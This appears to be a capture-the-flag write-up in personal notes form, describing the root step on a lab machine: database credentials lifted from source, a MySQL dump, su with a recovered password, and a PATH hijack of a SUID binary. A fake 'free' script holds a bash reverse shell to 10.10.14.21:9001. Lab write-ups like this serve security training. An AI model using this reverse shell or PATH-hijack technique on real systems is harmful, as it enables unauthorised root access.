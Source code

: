 # Getting Root

![[Pasted image 20211204224830.png]]
```bash
 	private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus
```

Dump SQL
```bash
mysqldump -u theseus -p Magic
```
![[Pasted image 20211204235320.png]]
Creds: admin:Th3s3usW4sK1ng

```bashh
$ su - theseus
```
pass:Th3s3usW4sK1ng


```bash
theseus@ubuntu:~$ find / -group users 2>/dev/null
/bin/sysinfo
theseus@ubuntu:~$ ls -la /bin/sysinfo
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinf
```

-f = follow fork
```bash
strace -f sysinfo
```
![[Pasted image 20211205085822.png]]

Export PATH to hijack relative path of free binary
Content of create free
```bash
theseus@ubuntu:/dev/shm$ vi free                                                               
theseus@ubuntu:/dev/shm$ chmod +x free
$ cat free
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.21/9001 0>&1
```


```bash
theseus@ubuntu:/dev/shm$ ls                                                                                                                                                                   
theseus@ubuntu:/dev/shm$ echo $PATH                                                                                                                                                           
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                                                                                            
theseus@ubuntu:/dev/shm$ vi free                                                                                                                                                              
theseus@ubuntu:/dev/shm$ chmod +x free                                                                                                                                                        
                                                                                                                                   
theseus@ubuntu:/dev/shm$ export "PATH=$(pwd):/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin"                                              
theseus@ubuntu:/dev/shm$ echo $PATH                                                                                                                                                           
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                                                                                   
theseus@ubuntu:/dev/shm$ sysinfo
```

![[Pasted image 20211205090718.png]]

